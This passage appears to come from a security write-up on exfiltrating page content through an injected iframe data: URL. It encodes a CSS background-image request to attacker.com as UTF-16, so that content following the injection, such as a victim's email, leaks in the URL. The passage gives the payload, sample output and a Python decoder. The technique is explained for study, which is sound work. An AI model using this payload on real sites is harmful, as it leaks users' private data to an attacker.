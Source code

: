 This is now [encoded as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text\('UTF-16LE%20\(1200\)'\)URL_Encode\(true\)\&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw), and put into an iframe `data:` URL:

<pre class="language-html" data-title="Payload" data-overflow="wrap"><code class="lang-html"><strong>&#x3C;iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
</strong></code></pre>

Any leak-worthy content can now be added to the end, until a `'` closes it off:

<pre class="language-html" data-title="HTML Source" data-overflow="wrap"><code class="lang-html">&#x3C;iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<strong>&#x3C;p>Your email: victim@example.com&#x3C;/p>
</strong>&#x3C;footer>That's all folks!&#x3C;/footer>
</code></pre>

In the browser, the content inside the iframe now looks like our injected prefix, with some random characters after it. This causes the background image request to be sent:

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption><p>Iframe loads with UTF-16 decoded content, sensitive data turned into chinese</p></figcaption></figure>

[https://attacker.com/?%E3%B0%8A%E3%B9%B0%E6%BD%99%E7%89%B5%E6%94%A0%E6%85%AD%E6%B1%A9%E2%80%BA%E6%A5%B6%E7%91%A3%E6%B5%A9%E6%95%80%E6%85%B8%E7%81%AD%E6%95%AC%E6%8C%AE%E6%B5%AF%E2%BC%BC%E3%B9%B0%E3%B0%8A%E6%BD%A6%E7%91%AF%E7%89%A5%E5%90%BE%E6%85%A8](https://attacker.com/?%E3%B0%8A%E3%B9%B0%E6%BD%99%E7%89%B5%E6%94%A0%E6%85%AD%E6%B1%A9%E2%80%BA%E6%A5%B6%E7%91%A3%E6%B5%A9%E6%95%80%E6%85%B8%E7%81%AD%E6%95%AC%E6%8C%AE%E6%B5%AF%E2%BC%BC%E3%B9%B0%E3%B0%8A%E6%BD%A6%E7%91%AF%E7%89%A5%E5%90%BE%E6%85%A8)

The above leak can be decoded back into the original characters by reading the UTF-16 characters as bytes. This is easily done in Python:

{% code title="Decode leak" %}
```python
from urllib.parse import unquote
leak = "%E3%B0%8A%E3%B9%B0%E6%BD%99%E7%89%B5%E6%94%A0%E6%85%AD%E6%B1%A9%E2%80%BA%E6%A5%B6%E7%91%A3%E6%B5%A9%E6%95%80%E6%85%B8%E7%81%AD%E6%95%AC%E6%8C%AE%E6%B5%AF%E2%BC%BC%E3%B9%B0%E3%B0%8A%E6%BD%A6%E7%91%AF%E7%89%A5%E5%90%BE%E6%85%A8"
print(unquote(leak).encode('utf-16-le').decode("utf-8"))
# b'\n<p>Your email: victim@example.com</p>\n<footer>Tha'
```
{% endcode %}
